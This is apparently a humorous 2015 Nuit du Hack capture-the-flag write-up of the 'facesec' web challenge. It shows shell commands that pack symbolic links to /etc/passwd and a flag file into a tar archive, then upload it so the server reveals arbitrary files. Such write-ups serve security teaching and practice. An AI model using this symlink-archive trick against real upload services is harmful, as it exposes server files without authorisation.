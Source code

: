 ```yaml
---
layout: post
title:  "Nuit du Hack - facesec"
date:   2015-04-08 21:55:00
categories: writeups
tags: ndh web
excerpt: "Caught mid-thought (wondering whether faceSec's famous breakrooms carry my favorite small-batch, gluten-free, co-op produced snack food) I realized that I had failed to include my letter of motivation or done anything with that tar upload functionality.  D'oh!"
---
```


>"Hello there,
>
>We are looking for a developer or security consultant to secure our filebox system. We stumbled upon your LinkedIn profile and it seems like you would be a perfect candidate for this job. Could you please send us your CV and Motivation letter?
>
>Thanks,
>
>faceSec HR Director."

- Points: 100
- Link: http://facesec.challs.nuitduhack.com/

We first visit the site and find that there isn't much to do without creating an account; we do so using some throw-away credentials.  After authenticating, we're informed that the site anticipates us uploading a CV and letter of motivation in a flat-file format or alternatively can upload both in a Tar file.

![Site greeter]({{ site.url }}/writeups/ndh2015/facesec/greeting.png)

Being the diligent testers we are (and oh so hopeful that we may someday work at the lofty faceSec(c)), we upload a CV that provides the sum-total of all Vegan Zombie members life experiences.  After getting an "upload successful" message, we visit our user profile page to confirm that everything worked as anticipated.

![It's what we do]({{ site.url }}/writeups/ndh2015/facesec/grains.png)

Cool!  Maybe faceSec will be impressed by our knowledge of formsubmission and animal-free diets.  Time to sit back and wait for that recruiters phone call!  Caught mid-thought (wondering whether faceSec's famous breakrooms carry my favorite small-batch, gluten-free, co-op produced snack food) I realized that I had failed to include my letter of motivation or done anything with that tar upload functionality.  D'oh!  Also, I'm lazy, let's use the tar option to upload everything at once!

{% highlight bash %}
$ ln -s /etc/passwd cv.txt
$ ln -s ../flag.txt motiv.txt
$ ls -l
	cv.txt -> /etc/passwd
	motiv.txt -> ../flag.txt
$ tar -cvf upload.tar cv.txt motiv.txt
{% endhighlight %}

Having been created without the "-k" flag, the symbolic links in the tar file should be preserved (as long as the file is also untar'd without this flag).  This will result in the application following the symbolic link when it attempts to open the file to print it out giving us the contents of arbitrary server files.  In this case, we get the contents of /etc/passwd which contain the flag: *W00tSymL1nkAttackStillW0rksIn2k15*.

![Yay flags]({{ site.url }}/writeups/ndh2015/facesec/flag.png)

Yeah, on second thought, I don't think I wanted to work for faceSec(c) anyways.
